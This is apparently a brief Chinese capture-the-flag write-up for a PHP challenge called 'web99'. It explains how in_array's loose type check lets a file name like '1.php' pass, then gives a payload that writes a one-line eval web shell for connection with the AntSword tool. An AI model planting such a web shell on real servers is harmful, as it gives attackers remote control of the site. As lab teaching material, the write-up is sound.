


# web99

array_push——往数组尾部插入元素
rand(1,$i)——随机生成1-877之间的数
//所以array_push($allow, rand(1,$i))就是往数组中插入1-877之间的数字
in_array——搜索数组中是否存在指定的值:
in_array(search,array,type)
search为指定搜索的值
array为指定检索的数组
type为TRUE则 函数还会检查 search的类型是否和 array中的相同

get传如文件名,post传入文件内容
?n=1.php
content=<?php eval($_POST['cmd']);?>
蚁剑连接
